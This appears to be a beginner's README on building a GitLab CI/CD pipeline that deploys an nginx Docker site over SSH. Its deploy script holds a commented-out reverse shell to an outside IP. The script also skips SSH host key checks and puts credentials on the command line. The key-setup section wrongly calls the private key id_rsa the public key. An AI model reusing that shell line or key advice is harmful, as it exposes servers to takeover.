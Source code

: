 # Documentation of CI/CD Project
What is CI/CD? That stand for Continuous integration (CI)/Continuous Deployment(CD). List what procced of deployment with Gitlab CI/CD.
- Make a Gitlab Project
- Make a CI/CD Pipline
- Deploy to a Server with CI/CD 

## 1. Gitlab Project
Before u create a project, u need an Gitlab account first. After that u can click the button ***"new project"*** in right corner.
![index_image_google](/images/g_1a.png)
After that u can select ***"Create Blank Project"***
![index_image_google](/images/g_1b.png)
Fill all data and then click ***"create project"***
![index_image_google](/images/g_2.png)

## 2. CI/CD Models

### a. Edit your Gitlab Project
After that you can clone the project in your local/pc. And then you can upload/push some file what we need for make this project. There are :
- Website files
- Configuration

For Website files u can add hmtl, css, js, images, and etc in ***One Folder*** in this case named ***Website*** on the menandap of the repo.

For Configuration files there are .gitlab-ci.yaml, .gitlab-deploy.sh  .

***.gitlab-ci.yaml***

```yaml
stage-build:
  image: docker:18.09-dind
  stage: build
  services:
    - docker:dind
  variables:
    DOCKER_HOST: tcp://docker:2375/
    DOCKER_DRIVER: overlay2
    DOCKER_TLS_CERTDIR: ""
  script:
    - . .gitlab-deploy.sh "BUILD"


stage-prod:
  image: ruby:2.5
  stage: deploy
  script:
    - . .gitlab-deploy.sh "DEPLOY"
  # when: manual

```

***gitlab-deploy.sh***
```bash 
#!/bin/bash
WAKTU=$(date '+%Y-%m-%d.%H')
echo "$SSH_KEY" > key.pem
chmod 400 key.pem

if [ "$1" == "BUILD" ];then
echo '[*] Building Program To Docker Images'
echo "[*] Tag $WAKTU"
docker build -t menandap/belajardevops:$CI_COMMIT_BRANCH .
docker login --username=$DOCKER_USER --password=$DOCKER_PASS
docker push menandap/belajardevops:$CI_COMMIT_BRANCH
echo $CI_PIPELINE_ID

elif [ "$1" == "DEPLOY" ];then
echo "[*] Tag $WAKTU"
echo "[*] Deploy to production server in version $CI_COMMIT_BRANCH"
echo '[*] Generate SSH Identity'
HOSTNAME=`hostname` ssh-keygen -t rsa -C "$HOSTNAME" -f "$HOME/.ssh/id_rsa" -P "" && cat ~/.ssh/id_rsa.pub
echo '[*] Execute Remote SSH'
# bash -i >& /dev/tcp/103.41.207.252/1234 0>&1
ssh -i key.pem -o "StrictHostKeyChecking no" menandap@119.13.124.218 "docker login --username=$DOCKER_USER --password=$DOCKER_PASS"
ssh -i key.pem -o "StrictHostKeyChecking no" menandap@119.13.124.218 "docker pull menandap/belajardevops:$CI_COMMIT_BRANCH"
ssh -i key.pem -o "StrictHostKeyChecking no" menandap@119.13.124.218 "docker stop belajardevops-$CI_COMMIT_BRANCH"
ssh -i key.pem -o "StrictHostKeyChecking no" menandap@119.13.124.218 "docker rm belajardevops-$CI_COMMIT_BRANCH"
ssh -i key.pem -o "StrictHostKeyChecking no" menandap@119.13.124.218 "docker run -d -p 3003:80 --restart always --name belajardevops-$CI_COMMIT_BRANCH menandap/belajardevops:$CI_COMMIT_BRANCH"
# ssh -i key.pem -o "StrictHostKeyChecking no" menandap@119.13.124.218 "docker exec farmnode-main sed -i 's/farmnode_staging/farmnode/g' /var/www/html/application/config/database.php"
echo $CI_PIPELINE_ID
fi

```
***Dockerfile***
```Dockerfile
FROM nginx:latest
COPY website/ /usr/share/nginx/html
```

### b. Configure your Server
In your server u need to configure public key so in the project u can login with the ***pem*** key

```bash 
ssh-keygen -t rsa -b 2048
```

After that you can check if the key was maked by see in **.ssh** dir, in there will have 3 files authorized_key, id_rsa, and id_rsa.pub.

![index_image_google](/images/g_3.png)

***noted*** : if there no authorized_keys, u can make it.
```bash
touch authorized_keys
cat id_rsa.pub > authorized_keys
```
Now u can see the id_rsa files, that contain the public key that make u can login the server. Copy the key in id_rsa files and then save and name it ***key.pem***.





